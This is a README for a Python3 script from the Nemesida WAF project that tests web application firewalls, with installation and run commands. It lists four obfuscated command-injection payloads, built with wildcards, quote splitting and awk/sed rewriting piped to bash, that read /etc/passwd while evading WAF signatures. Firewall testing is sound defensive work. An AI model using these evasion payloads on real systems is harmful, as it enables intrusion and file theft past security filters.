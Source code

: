 # WAF Bypass script

WAF bypass is a simple script written in Python3 for testing Web Application Firewall. Turn off ban mode before use.

## When using, do not violate the law!

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

![WAF Bypass Script](https://camo.githubusercontent.com/acd8bc382d0a8c7488a426d8f9817cf9b3de7c1a/68747470733a2f2f696d672e646566636f6e2e72752f73746f72652f323032302f30372f30303134633466633437623066616538636462386637393634383630366435382e706e67)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free bypass the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
# mkdir /opt/waf-bypass/
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt
# cd /opt/waf-bypass/

# python3 /opt/waf-bypass/main.py
</pre>
